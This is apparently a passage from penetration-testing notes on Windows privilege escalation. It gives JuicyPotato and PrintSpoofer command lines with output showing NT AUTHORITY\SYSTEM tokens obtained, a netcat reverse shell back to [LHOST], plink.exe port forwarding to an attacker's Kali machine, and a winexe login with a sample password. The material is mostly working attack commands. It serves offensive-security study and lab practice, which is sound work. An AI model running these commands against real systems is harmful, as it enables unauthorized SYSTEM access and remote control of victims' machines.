 ```powershell
# edit nc.bat with correct params and transfer to remote host
cmd> whoami /priv
cmd> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c

# Exploit failed - incorrect CLSID
Testing {4991D34B-80A1-4291-B697-000000000000} 443
COM -> recv failed with error: 10038

# Exploit worked - correct CLSID
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 443
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

#### <mark style="color:yellow;">PrintSpoofer - Windows 10 and Server 2016/2019</mark>

**PrintSpoofer.exe** is available here:&#x20;

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

* Leverages the Print Spooler service to get a SYSTEM token, then run a custom command

```
# spawn a SYSTEM command prompt
cmd> printspoofer.exe -i -c cmd

# get a SYSTEM reverse shell
cmd> printspoofer.exe -c "C:\temp\nc.exe [LHOST] [LPORT] -e cmd.exe"
```

## <mark style="color:red;">Port Forwarding</mark>

Sometimes it is easier to run exploit code on Kali, but the vulnerable program is listening on an internal port. In these cases we need to forward a port on Kali to the internal port on Windows. We can do this using a program called plink.exe (from the makers of PuTTY).

The general format of a port forwarding command using plink.exe:

```
> plink.exe <user>@<kali> -R <kali-port>:<target-IP>:<target-port>
```

Note that the is usually local (e.g. 127.0.0.1). plink.exe requires you to SSH to Kali, and then uses the SSH tunnel to forward ports.

1. First, test that we can still login remotely via winexe:

```
# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

2. Using an administrator command prompt, re-enable the firewall:

```
> netsh advfirewall set allprofiles state on
```
